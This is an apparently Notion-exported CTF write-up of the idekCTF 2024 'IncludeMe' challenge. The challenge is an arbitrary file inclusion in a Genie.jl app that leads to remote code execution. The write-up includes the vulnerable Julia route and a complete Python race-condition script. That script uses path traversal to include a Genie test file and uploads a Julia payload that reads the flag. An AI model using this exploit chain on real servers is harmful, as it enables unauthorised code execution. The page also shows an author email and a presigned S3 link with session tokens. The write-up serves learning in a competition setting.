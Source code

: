 ```yaml
---
id: 476adce3-c249-4a2d-ad88-ea823a5c99a1
title: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
created_time: 2024-08-19T00:24:00.000Z
last_edited_time: 2024-09-28T00:27:00.000Z
cover_image: ./imgs/images_CYPDSAFZ
icon_emoji: 🏎️
categories: []
verification:
  state: unverified
  verified_by: null
  date: null
page: Arbitrary File Inclusion Leading to RCE in Genie.jl - IncludeMe [idekCTF 2024]
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/images_CYPDSAFZ

---
```


In idekCTF 2024, I played with the **P1G SEKAI** team and secured 1st place out of 1,068 teams! I solved a challenge named "Included me" and got the first blood on that challenge.

# Challenge Description

another minimalist, frontend-less, challenge because i'm bad at writing server-side challenges

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/709a0b78-7ae2-4171-930b-e98c753c8621/includeme.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466TXZYRCEU%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T112618Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDMaCXVzLXdlc3QtMiJHMEUCIHDl3oZwfC8tfZmUISUmjci6S2AmkaZssiB%2Fwya5Zak4AiEA0kCMl2S1WvkBE2w%2FdLkmeRAMncC8g85yz5IMcee4fFsqiAQI7P%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDHxS3rRd9kF1wTdg7ircA75vHlU51%2FOVQ2CA76HOdcfR2c9eiarlDYmmDt4A3VJ144%2F4wfuOUZK84O8EsSOHig2XqNYs3cyR%2BOUWl68wJIxB8xVl6Si5bFKJYr4kqplyaxY2omV9Mvi5R0a0n40F7i3xIW5OHpULMh8fy%2B8NmTEg0QrU6W0zFK7%2Fy6RaZW852VNfyeZmUI45ZWu%2B876yBOrKpgbF%2FHRPqV8vYiEVb94lLGI3X7qJHS0vp8v5QlI4ld0mYrv3XhCnDlaXU74NrCzdXeKq2Ox2LBcOPaJ6hZPEI7Jr3P%2BjwrltnsGG5PWcEF%2BWXu%2BKf3N8DUrsui%2BwE%2BTlpQs9h5mLXsMZiN12IA9stk6SiKyKlMB8icOxkLo0uNhdCe1kcwzWrW%2FlgpE7RhmB5vjVS7wzYb23K%2FnvnCgm90Rc8sqKpg58zDZVVBddg%2BDKSQVKw1PAmkW8b%2BkMK4UnPNY2DYKXEvsBCvvZsX3Y9ZB60WHFgsbp%2BoVRPdv7secEPeRQNQ1sxKnXfYObFpFDjma38etShhwwiwYBgd%2BJOW1NY7PmFgIDbnxzlrMfuFoaZUKYHRQ943z64dq26nPxIS5yG6k7%2BApzDa2rAgN6kWnmnF5vc0VaSINBqBmPsNzuZiEY9pt9EXdmMOWmwcEGOqUBAELW0tJIXeU5d2t%2FavlyP016lEKaXvO8KmQ4XHZAMDtk7T1Yn%2FZzimssbbV7YKETnZhVjdepqJr%2B0TQBQk%2BYPpPoPokyDr7cvxjp1i5wcpuaRPALMW2YmHtNcLKU3rxI%2FoDV1uCBM%2BsU3phb%2Bs7ADJ7UFeBC7GxsBcgZdcHk2AMh%2FBg0Ke%2FvAESSBDqliSs%2B3K5ig3KgvyE%2FCa1J0KhlPk9Iz1iI\&X-Amz-Signature=722edad444dfdee35d85e2aa46fba91cc4898d9d753048cba619b6dddfa546bf\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# How to Solve

The goal of this challenge was to achieve Remote Code Execution (RCE) and capture the flag. The program was vulnerable to arbitrary file inclusion here:

```julia
using Genie, Genie.Requests, Pkg

Pkg.activate(".")

index() = include(params(:page, "example.jl"))

route("/", index)

up(1337, "0.0.0.0", async = false)
```

We could include arbitrary files into the application, altering its flow. I discovered that we could include a test case from this Genie.jl repository:

> [![image](./imgs/b322ed80-bc5a-11e9-807a-9b53749c40ef_ftYlQyUC) **Genie.jl/test/fileuploads/test.jl at 509886d61a75d74bcbd45db1f77230abd4cd11a8 · GenieFramework/Genie.jl**](https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14)\
> 🧞The highly productive Julia web framework. Contribute to GenieFramework/Genie.jl development by creating an account on GitHub.\
> <https://github.com/GenieFramework/Genie.jl/blob/509886d61a75d74bcbd45db1f77230abd4cd11a8/test/fileuploads/test.jl#L14>

This test case essentially exposes a file upload vulnerability, allowing us to upload arbitrary files into Genie. However, after including that file, the program’s flow would change, preventing us from doing it a second time… or would it? The solution is yes, we can include it again if we’re fast enough to include `app.jl` right after uploading the file. This requires a race condition. Here's my solution script:

```python
import httpx
import asyncio

URL = "http://localhost:1337"
# URL = "https://includeme-295e03fffda9795f.instancer.idek.team/"

class BaseAPI:
    def __init__(self, url=URL) -> None:
        self.c = httpx.AsyncClient(base_url=url, timeout=100)
    def page(self, page):
        return self.c.get("/", params={"page": page})
    def upload(self, fileupload):
        return self.c.post("/", files={"fileupload": ("x.jl", fileupload)})
class API(BaseAPI):
    ...

async def main():
    api = API()
    ress = []
    res1 = api.page("../home/ctf/.julia/packages/Genie/yQwwj/test/fileuploads/test.jl")
    ress.append(res1)
    for i in range(10):
        res2 = api.upload("""
read(`cat flag.txt`, String)
""")
        for j in range(10):
            res3 = api.page("app.jl")
            ress.append(res3)
        ress.extend([res1, res2])
    ress = await asyncio.gather(*ress)
    for res in ress:
        print(res.text)


if __name__ == "__main__":
    asyncio.run(main())

```

Next, visit <http://localhost:1337/?page=x.jl> to retrieve the flag.

![](./imgs/image_2FRbeU5K.png)
